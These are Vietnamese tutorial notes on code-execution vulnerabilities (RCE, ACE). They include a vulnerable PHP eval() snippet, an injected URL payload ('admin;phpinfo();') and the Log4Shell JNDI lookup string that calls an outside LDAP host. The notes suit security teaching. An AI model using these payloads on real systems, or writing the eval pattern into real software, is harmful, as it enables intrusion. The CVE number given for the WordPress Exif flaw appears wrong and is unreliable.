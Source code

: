 
# Tổng quan
- Code Excution là thuật ngữ chung để chi việc thực thi bất kì đoạn mã nào trên hệ thống

# Biến thể của Code Excution 

**1. RCE**

**a) Định nghĩa**

- RCE ( Remote Code Excution ) là 1 biến thể của Code Excution cho phép kẻ tấn công thực thi mã từ xa mà không cần quyền hợp lệ

**b) Tác động**

- Lỗ hổng RCE có thể gây ra những tác động nghiêm trọng đến hệ thống, ứng dụng: bao gồm: xâm nhập, lep thang đặc quyền, tiết lộ dữ liệu nhạy cảm, DoS, khai thác tiền điện tử, tóng tiền

**c) Ví dụ**

```
<?php eval("echo ".$_GET["user"].";"); ?>
```

Người phát triển có thể nghĩa rằng người dùng chỉ nhập tên người dùng hợp lệ làm tham số cho URL

```
http://www.example.com/index.php?user=admin
```

Sau đó, ứng dụng sẽ chạy giá trị tham số dưới dạng mã

```
echo admin;
```
và in tên người dùng

Kẻ tấn công có thể chèn mã độc vào bằng cách chèn dấu `;` vào đằng sau URL

```
http://www.example.com/index.php?user=admin;phpinfo();
```

Sau đó, đoạn code sẽ được thực thi như sau

```
echo admin;
phpinfo();
```

d) Các loại tấn công RCE

- Các loại tấn công phổ biến nhất là :
  - Tấn công Injection
  - Tấn công Deserialization: nếu ứng dụng không kiểm tra kĩ dữ liệu đầu vào từ người dùng, dữ iệu được chuỗi hóa có thể chứa mã độc và khi được deserialization, mã này sẽ được thực thi ( Deserialization là quá trình chuyển đổi chuỗi dữ liệu (byte stream) trở về đối tượng, cấu trùng dữ liệu ban đầu ( object, list,...)
  - Ghi ngoài giới hạn (Outs-of-bounds write): đây là lỗi quản lý bộ nhớ xảy ra khi chương trình ghi dữ liệu vượt ra ngoài vùng bộ nhớ đệm ( Ví dụ: nếu bộ nhớ được cấp chỉ đủ lưu 10 byte nhưng chương trình cố ghi vào 20 byte, các byte bổ sung sẽ ghi đè lên bộ nhớ lân cận. )
 
e) Ví dụ về một số lỗ hổng đã biết

- CVE-2021-44228 (Log4Shell): lỗ hổng xảy ra ở tích năng kết nối dịch vụ thông qua JNDI bằng cách sử dụng URL. Log4j không cung cấp bộ lọc nào để loại trừ các URL không xác định. Điều này xảy ra vì Log4j chứa cú pháp đặc biệt theo hình thức `${prefix:name}`. Ví dụ `${java:version}` là phiên bản Java đang chạy hiện tại, `${env:PATH}` lấy thông tin biến môi trường. Điều này rủi ro vì khi gặp chuỗi `${jndi:ldap://example.com/a}`, Log4j sẽ tự động kết nối với URL này

- CVE-2021-1844: đây là lỗ hổng bảo mật trong WordPress trước 5.0.1. Kẻ tấn công có quyền tác giả có thể tải lên 1 hình ảnh được tạo đặc biệt chứa mã PHP trong metadata Exif ( ứng dụng phân tích, quản lý hình ảnh )


**2. ACE**

- ACE ( Arbitrary Code Execution ) là khả năng kẻ tấn công thực thi bất kì mã tùy ý nào trên hệ thống ( có thể thực hiện cục bộ hoặc từ xa )
